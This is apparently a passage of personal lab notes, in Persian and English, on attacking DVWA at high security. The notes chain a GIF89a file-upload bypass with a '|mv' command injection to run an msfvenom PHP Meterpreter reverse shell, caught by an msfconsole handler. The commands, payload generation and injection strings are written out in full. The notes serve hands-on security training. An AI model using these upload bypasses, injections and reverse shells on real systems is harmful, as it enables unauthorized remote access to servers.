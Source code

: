 	3. بنابراین برای اینکار کامند زیر را پس از آپلود فایل در سرور تارگت،به سرور تزریق میکنیم >>
		1. `|mv "/usr/share/dvwa/hackable/uploads/exploit.php.jpeg" "/usr/share/dvwa/hackable/uploads/exploit.php"`
			1. ![[Pasted image 20240724192108.png]]
##### Instruction Steps
0. Set Security level on High and goto `DVWA => SQL Injection`
1. Create `msfvenom` payload
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > exploit.php
```
	![[Pasted image 20240724190133.png]]
2. Start Multi-Handler to Listening PHP Reverse Shells
```sh
ifconfig #Copy local ip tp st in LHOST on Payload
sudo msfconsole
msf6> search handler
msf6> use exploit/multi/handler
msf6> set payload php/meterpreter/reverse_tcp
msf6> set LHOST 192.168.18.121 #or 127.0.0.1
msf6> exploit -j -z
```
	![[Pasted image 20240724190247.png]]
3. *Change type of Payload from application/php to image/jpeg*
	1. Rename PHP Payload to `exploit.php.jpeg` and add `GIF89a;` to Header of this file
		1. ![[Pasted image 20240724191246.png]]
```sh
mv exploit.php exploit.php.jpeg
sudo nano exploit.php.jpeg
"Add below value in file header" => GIF89a;
```
4. *`DVWA => Command Injection` Inject Command to rename `exploit.php.jpeg`*
	1. Now we should Rename `exploit.php.jpeg` to `exploit.php` in DVWA Server in Command Injection Attack. 
	2. Command should be inject in `Enter ping ip address` Field
		1. ![[Pasted image 20240724195413.png]]
	3. in `DVWA Command Injection High Difficulty` Should inject Command without Space after Typo char.
		1. `| mv` Low, Medium Difficulty
		2. `|mv` High Difficulty
```sh
|mv "/usr/share/dvwa/hackable/uploads/exploit.php.jpeg" "/usr/share/dvwa/hackable/uploads/exploit.php"
```
	![[Pasted image 20240724192118.png]]
5. Now Open `exploit.php` in Browser to Give Meterpreter Access on `msfconsole`
	1. http://127.0.0.1:42001/hackable/uploads/exploit.php
		1. ![[Pasted image 20240724195503.png]]
	2. After file open we can give Meterpreter accessing and run Meterpreter commands
		1. `meterpreter > ls`
		2. `meterpreter > getuid`
			1. ![[Pasted image 20240726234424.png]]
6. Hacking done.
#### Practical Demo
0. Set Security level on High, Then goto `DVWA => File Upload`
1. Create PHP Reverse Shell Payload with `msfvenom`
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > exploit.php
```
	![[Pasted image 20240724200244.png]]
2. *Start `msfconsole` Listener for PHP Reverse Shell*
	1. در این مرحله باید ابتدا آیپی لوکال ماشین را کپی کنیم تا آنرا در LHOST جایگذاری کنیم. 
	2. تنها در صورتی میتوانیم از 127.0.0.1 استفاده کنیم که DVWA در ماشین Kali نصب شده باشد.
```sh
ifconfig #Copy local ip tp st in LHOST on Payload
```